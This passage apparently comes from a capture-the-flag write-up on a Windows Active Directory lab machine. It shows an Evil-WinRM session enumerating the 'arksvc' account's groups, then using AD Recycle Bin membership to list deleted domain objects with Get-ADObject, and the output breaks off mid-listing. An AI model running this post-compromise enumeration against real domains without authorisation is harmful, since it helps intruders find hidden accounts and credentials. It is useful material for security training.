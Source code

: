 ### Enumeration

arksvc is also in some interesting groups:

```
*Evil-WinRM* PS C:\> net user arksvc
User name                    arksvc
Full Name                    ArkSvc
Comment
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/9/2020 5:18:20 PM
Password expires             Never
Password changeable          1/9/2020 5:18:20 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   3/30/2020 12:37:25 PM

Logon hours allowed          All

Local Group Memberships      *AD Recycle Bin       *IT
                             *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.

```

### AD Recycle

`AD Recycle Bin` is a well-know Windows group. [Active Directory Object Recovery (or Recycle Bin)](https://blog.stealthbits.com/active-directory-object-recovery-recycle-bin/) is a feature added in Server 2008 to allow administrators to recover deleted items just like the recycle bin does for files. The linked article gives a PowerShell command to query all of the deleted objects within a domain:

```
*Evil-WinRM* PS C:\> Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects

Deleted           : True
DistinguishedName : CN=CASC-WS1\0ADEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe,CN=Deleted Objects,DC=cascade,DC=local
Name              : CASC-WS1
                    DEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe
ObjectClass       : computer
ObjectGUID        : 6d97daa4-2e82-4946-a11e-f91fa18bfabe

Deleted           : True
DistinguishedName : CN=Scheduled Tasks\0ADEL:13375728-5ddb-4137-b8b8-b9041d1d3fd2,CN=Deleted Objects,DC=cascade,DC=local                                                                                   
Name              : Scheduled Tasks
                    DEL:13375728-5ddb-4137-b8b8-b9041d1d3fd2
ObjectClass       : group
ObjectGUID        : 13375728-5ddb-4137-b8b8-b9041d1d3fd2

Deleted           : True
```